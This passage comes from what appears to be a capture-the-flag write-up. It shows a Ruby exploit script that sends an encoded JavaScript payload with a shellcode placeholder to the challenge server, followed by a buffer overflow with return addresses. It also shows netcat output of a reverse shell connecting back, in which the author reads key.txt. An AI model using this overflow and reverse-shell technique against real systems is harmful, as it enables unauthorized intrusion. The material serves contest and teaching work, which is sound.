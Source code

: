
<p>
  Which means that I need to change every place I used heap2. My new script then was:
</p>


<pre>#!/usr/bin/ruby
require 'socket'
host = "barcode.ghostintheshellcode.com"
port = 2426
t = TCPSocket.new(host,port)
t.print &lt;&lt;'EOF'
var socket = new Socket();
socket.send("\u0141\u0141\u0141\u0141\u01F0\u018E\u01E9\u01B7\u0178\u017E\u0107\u0108\u0100\u0170\u0107\u0108\u0100\u0110\u0100\u0100\u0107\u0100\u0100\u0100[shellcode]",0x100);
socket.recv(0x428);
EOF
t.flush
print t.recv(0x100)
t.print "A"*0x41C + "\x2C\x7E\xFD\xB7\x60\x7E\x07\x08\xFB\x94\x04\x08"
t.flush
t.close
exit</pre>


<p>
  Running this with shellcode, my netcat instance outputs:
</p>


<pre>listening on [any] 2222 ...
connect to [*] from ec2-50-16-200-223.compute-1.amazonaws.com [50.16.200.223] 44316
cat key.txt
Nice work, leet hacker you!

Now email gitsctf@ghostintheshellcode.com with the subject:
 JavaScrimp is a JavaShrimp
exit
</pre>


<p>
  Yay!
</p>

 [1]: http://packages.ubuntu.com/lucid/i386/xulrunner-1.9.2/download